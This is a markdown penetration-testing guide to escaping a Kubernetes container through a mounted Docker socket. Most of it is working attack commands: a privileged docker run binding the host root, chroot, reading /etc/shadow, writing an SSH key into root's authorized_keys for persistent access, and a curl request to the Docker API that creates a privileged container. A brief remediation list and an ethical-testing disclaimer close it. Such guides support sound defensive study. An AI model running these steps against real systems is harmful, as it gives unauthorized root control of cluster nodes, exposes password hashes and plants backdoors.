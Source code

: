 
# Docker Socket Mount Exploitation for Container Escape in Kubernetes

## 1. Overview

This document details the exploitation of a common Kubernetes misconfiguration where the Docker socket (`/var/run/docker.sock`) is mounted into a container. This allows an attacker inside the container to control the host's Docker daemon, leading to container escape and potential full host compromise.

**Attack Vector Description:**

An attacker gains initial access to a container. If the container mounts the Docker socket, the attacker can then interact with the Docker daemon running on the host. This allows for the creation of new, privileged containers that mount the host's root filesystem, providing the attacker with complete control over the node.

**Potential Impact and Consequences:**

*   **Container Escape:** Attacker gains access to the host system.
*   **Host Compromise:** Full control over the Kubernetes node.
*   **Lateral Movement:** Pivot to other resources within the cluster.
*   **Data Breach:** Access to sensitive data stored on the host or within the cluster.
*   **Denial of Service:** Potential to disrupt or shut down the entire Kubernetes cluster.

**Risk Level Assessment:**

**Critical** - Due to the potential for complete host compromise and lateral movement within the cluster.

**Technical Explanation:**

The Docker socket (`/var/run/docker.sock`) is the primary interface for interacting with the Docker daemon. By mounting this socket into a container, the container effectively has the same privileges as the Docker daemon itself. This bypasses containerization boundaries and allows the container to manipulate the host system through Docker commands.

**Prerequisites and Conditions Needed:**

*   Initial access to a container within the Kubernetes cluster.
*   The target container must have the `/var/run/docker.sock` mounted into its filesystem. This is often a misconfiguration stemming from attempts to run Docker-in-Docker solutions or misconfigured CI/CD pipelines.
*   `docker` command-line tool (or a compatible Docker API client) installed inside the compromised container (or ability to download and install it). If Docker is not present a tool like `curl` can be used to interact directly with the docker socket (requires JSON formatting).

## 2. Validation and Exploitation Steps

**Phase 1: Validation (Checking for the Vulnerability)**

**Step 1: Check if Docker is installed**

```bash
which docker
```

*   **Explanation:**  Verifies if the `docker` command-line tool is available within the container.  This is needed to interact with the Docker daemon.
*   **Expected Output:**  `/usr/bin/docker` (or similar path).  If no output, Docker is not installed, and you need to either install it or use an alternative method of communicating with the Docker daemon, such as using `curl` to interact with the Docker API directly.
*   **Contribution:**  Determines if the basic tool required for exploitation is present.

**Step 2: Check for the Docker socket mount**

```bash
ls -l /var/run/docker.sock
```

*   **Explanation:** Verifies if the Docker socket exists within the container's filesystem.  The Docker socket is the entry point for interacting with the Docker daemon.
*   **Expected Output:** `srw-rw---- 1 root docker 0 Oct 26 14:32 /var/run/docker.sock` (or similar output indicating a socket file). If the file doesn't exist, the container isn't vulnerable.
*   **Contribution:** Confirms the presence of the Docker socket, a crucial element of the vulnerability.

**Step 3 (Alternative if 'ls' isn't available or mounted as a file): Try to connect to the docker daemon directly**

```bash
docker info
```

*   **Explanation:** This attempts to directly interact with the docker daemon using the `docker info` command. Even if the socket is present, it might be mounted incorrectly.
*   **Expected Output:** Information about the Docker daemon (e.g., number of containers, images, kernel version). Any error messages regarding connection refusal, permissions, or similar issues indicate a problem.  However, a successful connection confirms the vulnerability.
*   **Contribution:** This confirms the ability to communicate with the docker daemon.

**Phase 2: Exploitation (Gaining Host Access)**

**Step 4: Create a privileged container that mounts the host's root filesystem**

```bash
docker run -it --rm --privileged --pid=host --net=host --volume /:/mnt alpine /bin/sh
```

*   **Explanation:** This command creates a new Docker container with the following options:
    *   `-it`: Interactive terminal.
    *   `--rm`: Automatically removes the container when it exits.
    *   `--privileged`:  Grants the container almost all of the capabilities of the host.
    *   `--pid=host`: Shares the host's process ID namespace with the container, allowing the container to see all processes running on the host.
    *   `--net=host`: Shares the host's network namespace with the container, allowing the container to access the host's network interfaces.
    *   `--volume /:/mnt`: Mounts the host's root filesystem (`/`) into the container's `/mnt` directory.
    *   `alpine`:  Uses a minimal Alpine Linux image for the container.
    *   `/bin/sh`: Starts a shell inside the container.
*   **Expected Output:** A shell prompt within the newly created container.
*   **Contribution:** Creates a container that has access to the host's filesystem.

**Step 5: Chroot into the host's filesystem**

```bash
chroot /mnt
```

*   **Explanation:** This command changes the root directory of the current process to `/mnt`, which is where the host's root filesystem is mounted. This effectively makes the container "become" the host.  **Note:** If `chroot` is not installed, you can use `pivot_root` (more complex).
*   **Expected Output:** The command prompt may change depending on the host system's configuration. You are now operating from within the host's filesystem.
*   **Contribution:**  Gives the attacker a root shell on the host.

**Step 6: Verify host access (optional)**

```bash
whoami
```

*   **Explanation:** Check the current user.  If exploitation successful, you should be able to verify the `root` user.

```bash
cat /etc/shadow
```

*   **Explanation:** Check the `/etc/shadow` file, this usually requires root access.
*   **Expected Output:** If successful, the content of the `/etc/shadow` file will be displayed.

**Step 7: Post-Exploitation (Example: Add a SSH Key)**

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC..." > /root/.ssh/authorized_keys
```

*   **Explanation:** Adds an SSH key to the host's root user's `authorized_keys` file. Replace `AAAAB3NzaC1yc2EAAAADAQABAAABgQC...` with your public SSH key.
*   **Expected Output:** No output.
*   **Contribution:** Allows persistent SSH access to the compromised host.

**Alternative Exploitation - Direct Docker API Interaction (If docker CLI isn't available)**

If the `docker` CLI is not available inside the compromised container, you can interact directly with the Docker API through the Docker socket using tools like `curl`. This requires understanding the Docker API specification.

**Example: Creating a new container (Alternative for Step 4)**

```bash
curl -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "alpine", "Cmd": ["/bin/sh"], "HostConfig": {"Privileged": true, "NetworkMode": "host", "PidMode": "host", "Binds": ["/:/mnt"]}}' http://localhost/containers/create
```

*   **Explanation:** Sends a POST request to the Docker API's `/containers/create` endpoint to create a new container. The JSON payload specifies the image to use ("alpine"), the command to run ("/bin/sh"), and the host configuration (privileged, network mode, PID mode, and volume binding).
*   **Expected Output:** A JSON response containing the container ID.
*   **Contribution:** Creates a container that has access to the host's filesystem using Docker API.  From here on, steps 5 and 6 are identical.

**Remediation Recommendations:**

*   **Avoid mounting the Docker socket into containers unless absolutely necessary.**  Re-evaluate the architecture and explore alternative solutions that don't require direct access to the Docker daemon.
*   **If mounting the Docker socket is unavoidable, consider using a dedicated Docker API proxy with limited privileges.** This allows containers to interact with the Docker daemon but restricts the available API calls and capabilities.
*   **Implement strong container security policies and monitoring.** Use tools like NetworkPolicy to restrict network access, AppArmor/Seccomp to limit system calls, and audit logs to detect suspicious activity.
*   **Regularly scan containers and images for vulnerabilities.** Use vulnerability scanners to identify and address potential security flaws in container images and running containers.
*   **Use a more robust container orchestration platform like Kubernetes, which offers native security features and policies to mitigate the risk of container escape.** Ensure you're leveraging features like Pod Security Policies (replaced by Pod Security Admission) to enforce security constraints.

This documentation provides a comprehensive guide to exploiting the Docker socket mount vulnerability. It is crucial to understand these techniques for ethical penetration testing and to implement appropriate security measures to prevent exploitation in real-world environments.
